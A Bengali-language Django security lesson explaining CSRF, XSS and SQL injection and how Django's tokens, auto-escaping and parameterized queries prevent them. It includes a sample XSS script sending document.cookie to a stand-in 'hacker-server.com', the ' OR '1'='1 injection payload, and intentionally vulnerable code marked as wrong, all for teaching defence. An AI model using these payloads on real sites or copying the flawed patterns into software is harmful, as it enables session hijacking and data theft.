

# Lesson 54: Django Security - CSRF, XSS ও SQL Injection প্রতিরোধ 🛡️🔒

ওয়েব অ্যাপ্লিকেশনের নিরাপত্তায় সামান্য অবহেলা পুরো কোম্পানির ডেটা লিক, ব্যবহারকারীর সেশন হাইজ্যাক বা ডেটাবেজ মুছে যাওয়ার কারণ হতে পারে। OWASP Top 10-এর মধ্যে সবচেয়ে পরিচিত ও ধ্বংসাত্মক তিনটি আক্রমণ হলো **CSRF**, **XSS**, এবং **SQL Injection**।

Django-কে বলা হয় "Secure by Default" ফ্রেমওয়ার্ক, কারণ এটি ডেভেলপারদের এই আক্রমণগুলো থেকে রক্ষার জন্য শক্তিশালী বিল্ট-ইন সুরক্ষা প্রদান করে। তবে কীভাবে এই আক্রমণগুলো ঘটে এবং কীভাবে Django-র সুরক্ষাব্যবস্থা সঠিকভাবে ব্যবহার করতে হয় তা জানা প্রতিটি ব্যাকএন্ড ইঞ্জিনিয়ারের জন্য বাধ্যতামূলক।

---

# ১. CSRF (Cross-Site Request Forgery) 🎭

### CSRF কী?
CSRF এমন একটি আক্রমণ যেখানে কোনো হ্যাকার কোনো বিশ্বস্ত ব্যবহারকারীকে (যিনি ইতোমধ্যে কোনো ওয়েবসাইটে লগইন করা আছেন) অজান্তেই তার অ্যাকাউন্ট ব্যবহার করে ক্ষতিকর কোনো অ্যাকশন সম্পন্ন করতে বাধ্য করে (যেমন: টাকা ট্রান্সফার করা, পাসওয়ার্ড বা ইমেইল পরিবর্তন করা)।



---

### Django কীভাবে CSRF প্রতিরোধ করে?
Django **Synchronizer Token Pattern** ব্যবহার করে। সার্ভার প্রতি সেশনে একটি গোপন ইউনিক ক্রিপ্টোগ্রাফিক টোকেন তৈরি করে। ফর্ম সাবমিট করার সময় এই টোকেনটি রিকোয়েস্টের বডি বা হেডারে পাঠানো বাধ্যতামূলক। হ্যাকার অন্য সাইট থেকে কুকি পাঠাতে পারলেও এই গোপন টোকেনটি জানে না, ফলে Django সাথে সাথে `403 Forbidden` দিয়ে রিকোয়েস্ট ব্লক করে দেয়।

### ১. HTML Forms-এ CSRF টোকেন ব্যবহার:
প্রতিটি POST, PUT, DELETE ফর্মে `` ট্যাগ দিতে হবে:
```html
<form method="POST" action="">
     <!-- এটি একটি হিডেন ইনপুট ফিল্ড তৈরি করে -->
    <input type="text" name="amount">
    <button type="submit">টাকা পাঠান</button>
</form>
```

### ২. AJAX / Fetch API / React / Next.js-এ CSRF হ্যান্ডেল করা:
JavaScript দিয়ে API কল করার সময় ব্রাউজার কুকি থেকে `csrftoken` সংগ্রহ করে রিকোয়েস্ট হেডারে `X-CSRFToken` হিসেবে পাঠাতে হয়:

```javascript
// কুকি থেকে টোকেন বের করার হেল্পার ফাংশন
function getCookie(name) {
    let cookieValue = null;
    if (document.cookie && document.cookie !== '') {
        const cookies = document.cookie.split(';');
        for (let i = 0; i < cookies.length; i++) {
            const cookie = cookies[i].trim();
            if (cookie.substring(0, name.length + 1) === (name + '=')) {
                cookieValue = decodeURIComponent(cookie.substring(name.length + 1));
                break;
            }
        }
    }
    return cookieValue;
}

// Fetch রিকোয়েস্ট পাঠানো
fetch('/api/v1/profile/update/', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRFToken': getCookie('csrftoken'),  // Django এই হেডার চেক করবে
    },
    body: JSON.stringify({ bio: "Updated Bio" })
});
```

### ৩. গুরুত্বপূর্ণ CSRF সেটিংস (`settings.py`):
```python
# HTTPS সংযোগে কেবল কুকি পাঠাতে
CSRF_COOKIE_SECURE = True

# JavaScript যেন কুকি রিড না করতে পারে (যদি AJAX না লাগে)
CSRF_COOKIE_HTTPONLY = False  # AJAX-এ লাগলে False, সেশন প্রটেকশনে True

# নির্দিষ্ট ডোমেন ট্রাস্ট করা (Django 4.0+)
CSRF_TRUSTED_ORIGINS = [
    'https://mysite.com',
    'https://subdomain.mysite.com',
]
```

> ⚠️ **কখনই `@csrf_exempt` অযথা ব্যবহার করবেন না!** মোবাইল অ্যাপ বা পাবলিক ওয়েবহুকের জন্য টোকেন ভিত্তিক অথেন্টিকেশন (JWT / API Key) ব্যবহার করা নিরাপদ।

---

# ২. XSS (Cross-Site Scripting) 💉

### XSS কী?
XSS এমন একটি দুর্বলতা যেখানে আক্রমণকারী কোনো ওয়েবসাইটে ক্ষতিকর JavaScript কোড ইনজেক্ট করে। যখন কোনো সাধারণ ব্যবহারকারী সেই পেজটি লোড করেন, তখন সেই স্ক্রিপ্টটি তার ব্রাউজারে এক্সিকিউট হয় এবং তার সেশন কুকি, পাসওয়ার্ড চুরি করতে পারে বা পেজে ফেক ফর্ম বসিয়ে দিতে পারে।

```javascript
// হ্যাকারের ইনজেক্ট করা ক্ষতিকর কোড:
<script>
    fetch('https://hacker-server.com/steal?cookie=' + document.cookie);
</script>
```

### XSS-এর প্রকারভেদ:
1. **Stored XSS:** ডেটাবেজে ক্ষতিকর স্ক্রিপ্ট সেভ হয়ে থাকে (যেমন ব্লগ কমেন্ট বা ফোরাম পোস্ট)। পেজ যারাই দেখবে সবার ব্রাউজারে রান করবে। (সবচেয়ে বিপজ্জনক)
2. **Reflected XSS:** সার্চ কুয়েরি বা URL প্যারামিটারের মাধ্যমে তাৎক্ষণিক পেজে প্রতিফলিত হয় (`/search?q=<script>...`).
3. **DOM-based XSS:** ক্লায়েন্ট সাইড জাভাস্ক্রিপ্ট ত্রুটিপূর্ণভাবে আনভ্যালিডেটেড ডেটা DOM-এ যোগ করলে (`innerHTML`).

---

### Django কীভাবে XSS প্রতিরোধ করে?
Django টেমপ্লেট ইঞ্জিন ডিফল্টভাবে **Automatic HTML Escaping** নিশ্চিত করে। অর্থাৎ কোনো ভেরিয়েবল প্রিন্ট করার সময় নিচের বিপজ্জনক ক্যারেক্টারগুলোকে স্বয়ংক্রিয়ভাবে নিরাপদ HTML Entities-এ রূপান্তর করে ফেলে:
- `<` রূপান্তর হয় `&lt;`
- `>` রূপান্তর হয় `&gt;`
- `'` রূপান্তর হয় `&#x27;`
- `"` রূপান্তর হয় `&quot;`
- `&` রূপান্তর হয় `&amp;`

উদাহরণস্বরূপ, ডেটাবেজে যদি থাকে: `<script>alert(1)</script>`
টেমপ্লেটে `{{ user_comment }}` লিখলে ব্রাউজারে দেখাবে:
`&lt;script&gt;alert(1)&lt;/script&gt;` — ফলে ব্রাউজার এটিকে টেক্সট হিসেবে দেখায়, স্ক্রিপ্ট হিসেবে এক্সিকিউট করে না!

### ❌ চরম বিপদ: অসাবধানতাবশত `|safe` বা `mark_safe` ব্যবহার!
```html
<!-- ❌ চরম বিপদ: হ্যাকারের স্ক্রিপ্ট সরাসরি এক্সিকিউট হবে! -->
{{ user_comment|safe }}
```
```python
# ❌ পাইথন কোডেও বিপজ্জনক:
from django.utils.safestring import mark_safe
html_text = mark_safe(request.POST.get('comment'))  # হ্যাকিংয়ের সুযোগ তৈরি করে!
```

### ✅ Rich Text (HTML) ইনপুট নিরাপদ করার উপায় (`nh3` বা `bleach`):
ইউজার যদি ব্লগ পোস্টের জন্য বোল্ড (`<b>`), ইটালিক (`<i>`) ট্যাগ পাঠাতে চায়, তবে `nh3` বা `bleach` লাইব্রেরি দিয়ে স্যানিটাইজ করে ক্ষতিকর স্ক্রিপ্ট ফিল্টার করতে হয়:

```python
# pip install nh3
import nh3

def clean_html_input(raw_html):
    # শুধুমাত্র অনুমোদিত ট্যাগ ও এট্রিবিউট রাখা হবে, <script> মুছে যাবে
    return nh3.clean(
        raw_html,
        tags={'p', 'b', 'i', 'strong', 'em', 'a', 'ul', 'li'},
        attributes={'a': {'href', 'title'}}
    )
```

---

# ৩. SQL Injection (SQLi) 🗃️💥

### SQL Injection কী?
SQL Injection এমন একটি আক্রমণ যেখানে হ্যাকার ব্যবহারকারীর ইনপুট ফিল্ডের (যেমন লগইন ফর্ম বা সার্চ বক্স) ভেতর কুটিল SQL সিনট্যাক্স প্রবেশ করিয়ে ডেটাবেজ কোয়েরির কাঠামো পরিবর্তন করে ফেলে।

ধরুন ব্যাকএন্ডে এভাবে দুর্বল কোড লেখা আছে:
```python
# ❌ চরম বিপজ্জনক কোড (String Formatting)
query = f"SELECT * FROM accounts_user WHERE username = '{username}' AND password = '{password}';"
```

যদি হ্যাকার ইউজারনেম ইনপুটে দেয়: `' OR '1'='1`
তাহলে ব্যাকগ্রাউন্ডে কুয়েরি তৈরি হবে:
```sql
SELECT * FROM accounts_user WHERE username = '' OR '1'='1' AND password = '...';
```
যেহেতু `'1'='1'` সর্বদা সত্য, হ্যাকার পাসওয়ার্ড ছাড়াই প্রথম ইউজারের (সাধারণত Admin) একাউন্টে লগইন করে ফেলবে!

---

### Django কীভাবে SQL Injection প্রতিরোধ করে?
Django ORM ব্যবহার করলে আপনি **১০০% নিরাপদ**, কারণ Django ORM সমস্ত কোয়েরিকে **Parameterized Queries (Prepared Statements)** হিসেবে ডেটাবেজে পাঠায়:

```python
# ✅ শতভাগ নিরাপদ (Django ORM)
users = User.objects.filter(username=username, password=password)
```
এখানে Django ডেটাবেজ ড্রাইভারের মাধ্যমে ইনপুটকে কোড হিসেবে নয়, খাঁটি ডেটা প্যারামিটার হিসেবে পাঠায়। হ্যাকার `' OR '1'='1` দিলেও ডেটাবেজ সেটিকে আক্ষরিক ইউজারনেম হিসেবেই খুঁজবে।

---

### ⚠️ Raw SQL ব্যবহারের সতর্কতা:
যদি আপনাকে কোনো জটিল কারণে কাঁচা (Raw) SQL ব্যবহার করতেই হয়:

```python
from django.db import connection

# ❌ মারাত্মক ভুল: কখনোই f-string বা % ফরম্যাটিং দিয়ে স্ট্রিং কনক্যাট করবেন না!
cursor.execute(f"SELECT * FROM products WHERE name = '{user_input}'")

# ✅ সঠিক ও নিরাপদ পদ্ধতি: প্যারামিটার লিস্ট পাস করুন (Prepared Statement)
cursor.execute("SELECT * FROM products WHERE name = %s", [user_input])
```

মডেলের `raw()` মেথডের ক্ষেত্রেও একইভাবে প্যারামিটার পাস করতে হয়:
```python
# ✅ নিরাপদ raw() কোয়েরি
products = Product.objects.raw("SELECT * FROM products_product WHERE price > %s", [min_price])
```

---

# ৪. Django Security Audit (`check --deploy`)

আপনার Django প্রজেক্ট প্রোডাকশনে নেওয়ার আগে কোনো সিকিউরিটি ভুলভ্রান্তি আছে কি না তা যাচাই করার জন্য Django-র নিজস্ব কমান্ড চালান:

```bash
python manage.py check --deploy
```

এটি আপনার `settings.py` ফাইল নিরীক্ষা করে নিচের গুরুত্বপূর্ণ সেটিংসগুলোর স্ট্যাটাস জানিয়ে দেবে:

```python
# settings.py - প্রোডাকশন সিকিউরিটি চেকলিস্ট
DEBUG = False  # প্রোডাকশনে কখনও True রাখবেন না

SECURE_SSL_REDIRECT = True               # সমস্ত HTTP ট্রাফিককে HTTPS এ রিডাইরেক্ট করবে
SESSION_COOKIE_SECURE = True             # সেশন কুকি শুধুমাত্র HTTPS দিয়ে যাবে
CSRF_COOKIE_SECURE = True                # CSRF কুকি শুধুমাত্র HTTPS দিয়ে যাবে
SECURE_BROWSER_XSS_FILTER = True         # ব্রাউজারের XSS ফিল্টার সক্রিয় করে
SECURE_CONTENT_TYPE_NOSNIFF = True       # MIME-type sniffing আক্রমণ প্রতিরোধ করে
X_FRAME_OPTIONS = 'DENY'                 # Clickjacking আক্রমণ প্রতিরোধ করে
```

---

## সারসংক্ষেপ (Cheat Sheet)

| আক্রমণের নাম | কী ঝুঁকি তৈরি করে? | Django-র বিল্ট-ইন সমাধান | ডেভেলপারের দায়িত্ব |
| :--- | :--- | :--- | :--- |
| **CSRF** | ইউজারের অজান্তে ক্ষতিকর অ্যাকশন সাবমিট | `CsrfViewMiddleware` ও Synchronizer Token | ফর্মে `` এবং AJAX-এ `X-CSRFToken` হেডার ব্যবহার করা |
| **XSS** | ক্ষতিকর JavaScript ইনজেকশন | Template Auto-Escaping | ইউজার ইনপুটে ভুলেও `\|safe` ব্যবহার না করা; HTML অনুমোদনের জন্য স্যানিটাইজার ব্যবহার করা |
| **SQL Injection** | ডেটাবেজ হ্যাক বা ডেটা মুছে ফেলা | ORM Parameterized Query | কাঁচা SQL-এ স্ট্রিং ফরম্যাটিং না করে `%s` প্যারামিটার পাস করা |
